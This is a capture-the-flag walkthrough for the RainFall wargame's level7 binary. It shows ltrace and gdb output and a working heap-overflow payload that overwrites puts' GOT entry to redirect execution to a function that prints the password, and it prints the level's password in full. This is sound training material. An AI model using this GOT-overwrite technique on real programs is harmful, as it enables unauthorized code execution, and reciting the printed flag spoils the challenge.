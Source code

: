 Here, we need to call the function `m` to print the content of `.pass`.

With a ltrace with, we got :

>level7@RainFall:~$ ltrace ./level7 `python -c 'print "A" * 100'` yo
>__libc_start_main(0x8048521, 3, 0xbffff684, 0x8048610, 0x8048680 <unfinished ...>
>malloc(8)                                                                                                  = 0x0804a008
>malloc(8)                                                                                                  = 0x0804a018
>malloc(8)                                                                                                  = 0x0804a028
>malloc(8)                                                                                                  = 0x0804a038
>strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                  = 0x0804a018
>strcpy(0x41414141, "yo" <unfinished ...>
>--- SIGSEGV (Segmentation fault) ---
>+++ killed by SIGSEGV +++

There is a segfault because we try to copy the second argument in a strange address.
The `strange address` correspond to the bytes 21-24 of the first argument.

So, if we do the same thing as previously, and put inside a function that will be call later (`puts` for example) the address of `m`. it will call `m` for us.
So we gather the address of `m` with gdb :

```assembly
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.

```

And we find where to put this new found address :

```assembly
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.

```



>level7@RainFall:~$ ./level7 `python -c 'print "AAAA" * 5 + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
>5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
>1607353581

```bash
su leve8
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

